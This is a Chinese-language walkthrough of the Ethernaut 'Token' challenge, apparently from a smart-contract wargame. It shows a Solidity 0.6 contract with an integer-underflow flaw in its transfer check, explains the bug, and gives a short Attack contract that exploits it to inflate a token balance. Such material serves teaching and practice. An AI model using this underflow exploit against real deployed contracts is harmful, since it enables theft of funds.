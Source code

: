 # Token
Token這一關要求我們的Token餘額大於20，考察的是 solidity ^0.6.0中關於`uint` 數學計算的問題，讓我們先來看一下代碼

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
## 代码分析
在這關中，我們的錢包會被預先給予**20個**token，而我們的目標是通過攻擊合約，將我們的token數量增加。整個合約的代碼非常簡單，唯一可以讓我們增加餘額的僅僅只是`transfer`函數。

進入看`transfer`函數，這個函數的入參有兩個，一個是接受地址，另一個是接受token的數量，而這個函數的實現非常簡單，就是將`msg.sender`的餘額減去`_value`，然後將`_value`加到接受地址的餘額上。在此之前，他需要檢查`msg.sender`的餘額是否大於`_value`，如果不是，則會拋出異常。

看似沒有什麽問題，但是在solidity ^0.6.0中，直接進行uint的計算經常會出現問題。儅0減去一個大於0的uint時，會導致結果溢出，而溢出的結果會是一個非常大的數字，這個數字會大於0，所以檢查就會通過，這就是我們要利用的漏洞。

那我們就需要使用一個合約，這個合約token的餘額為0，然後我們通過這個合約來調用`transfer`函數，transfer給我們的錢包任意的數量，都可以通過檢查，以此達到完成這關的目的。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Itoken {
  function transfer(address _to, uint _value) external returns (bool);
  function balanceOf(address) external view returns (uint256);
}

contract Attack {
  constructor(address _target) {
    Itoken(_target).transfer(msg.sender, 10);
  }
}
```
## 攻击过程
1. 獲取實例的地址所謂部署Attack合約時contructor的入參。
2. 使用Itoken與實例地址交互，調用balanceOf函數檢查餘額是否增加。
